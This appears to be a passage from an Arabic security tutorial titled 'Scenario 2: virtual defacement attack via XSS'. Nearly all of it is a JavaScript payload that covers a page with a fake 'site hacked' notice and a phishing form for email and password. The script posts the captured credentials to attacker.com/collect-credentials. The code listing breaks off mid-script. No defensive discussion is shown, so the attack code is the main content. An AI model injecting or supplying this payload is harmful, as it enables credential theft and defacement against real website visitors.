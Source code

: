 ### سيناريو 2: هجوم virtual defacement عبر XSS

```javascript
(function() {
    // 1. إنشاء محتوى مزيف
    const overlay = document.createElement('div');
    overlay.style.cssText = `
        position: fixed;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        background-color: white;
        z-index: 999999;
        overflow: auto;
    `;
    
    // 2. إضافة محتوى مزيف
    overlay.innerHTML = `
        <style>
            body { margin: 0; font-family: Arial, sans-serif; }
            .header { background-color: #FF0000; color: white; padding: 20px; text-align: center; }
            .content { padding: 20px; }
        </style>
        <div class="header">
            <h1>تم اختراق هذا الموقع!</h1>
        </div>
        <div class="content">
            <h2>تم الاستيلاء على الموقع بواسطة مجموعة القراصنة XYZ</h2>
            <p>تم تسريب جميع بياناتكم وستنشر قريباً...</p>
            <img src="https://attacker.com/hacked-logo.png" alt="Hacked">
            
            <!-- نموذج مزيف لسرقة معلومات إضافية -->
            <h3>لاستعادة وصولك، يرجى تأكيد هويتك:</h3>
            <form id="fake-recovery" onsubmit="sendCredentials(); return false;">
                البريد الإلكتروني: <input type="email" id="email" required><br><br>
                كلمة المرور: <input type="password" id="password" required><br><br>
                <button type="submit">استعادة الوصول</button>
            </form>
        </div>
    `;
    
    // 3. إضافة وظيفة لسرقة بيانات الاعتماد
    window.sendCredentials = function() {
        const data = {
            email: document.getElementById('email').value,
            password: document.getElementById('password').value,
            domain: location.hostname,
            time: new Date().toString()
        };
        
        fetch('https://attacker.com/collect-credentials', {
            method: 'POST',
            body: JSON.stringify(data),
            headers: {'Content-Type': 'application/json'},
            mode: 'no-cors'
        });
        
        alert('شكراً! سيتم استعادة حسابك خلال 24 ساعة.');
        return false;
    };
    
    // 4. إضافة المحتوى إلى الصفحة
```